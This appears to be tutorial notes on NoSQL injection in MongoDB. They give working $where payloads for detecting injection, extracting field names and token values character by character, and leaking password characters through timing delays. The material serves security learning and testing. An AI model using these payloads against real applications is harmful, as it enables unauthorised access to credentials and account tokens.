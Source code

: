 #### Injecting operators in MongoDB
Consider a vulnerable application that accepts username and password in the body of a POST request:
```js
{"username":"wiener","password":"peter"}
```
To test whether you can inject operators, you could try adding the $where operator as an additional parameter, then send one request where the condition evaluates to false, and another that evaluates to true. For example:
```js
// False condition
{"username":"wiener","password":"peter", "$where":"0"}

// True condition
{"username":"wiener","password":"peter", "$where":"1"}
```
If there is a difference between the responses, this may indicate that the **JavaScript** expression in the `$where` clause is being *evaluated*.

###### Extracting field names
If you have injected an operator that enables you to run JavaScript, you may be able to use the keys() method to extract the name of data fields. For example, you could submit the following payload:
```js
// This inspects the first data field in the user object and returns the first character of the field name. This enables you to extract the field name character by character (Use Burp Suite Intruder with Cluster Bomb)
// Regex: Matches if first character of the data field name is 'a'
"$where":"Object.keys(this)[0].match('^.{0}a.*')"

// After you find the valid data field, find the correct value for that field (Same way in Burp Suite)
"$where":"this.unlockToken.match('^.{0}a.*')"
```


## Timing Based Injection
To conduct timing-based NoSQL injection:
1) *Load the page several times* to determine a baseline loading time.
2) Insert a timing based payload into the input. A timing based payload causes an intentional delay in the response when executed. For example, `{"$where": "sleep(5000)"}` causes an intentional delay of **5000 ms** on successful injection.
3) Identify whether the response loads more slowly. This indicates a successful injection.

```js
// Trigger a Time Delay if password begins with 'a'
admin'+function(x){var waitTill = new Date(new Date().getTime() + 5000);while((x.password[0]==="a") && waitTill > new Date()){};}(this)+'

OR

admin'+function(x){if(x.password[0]==="a"){sleep(5000)};}(this)+'
```
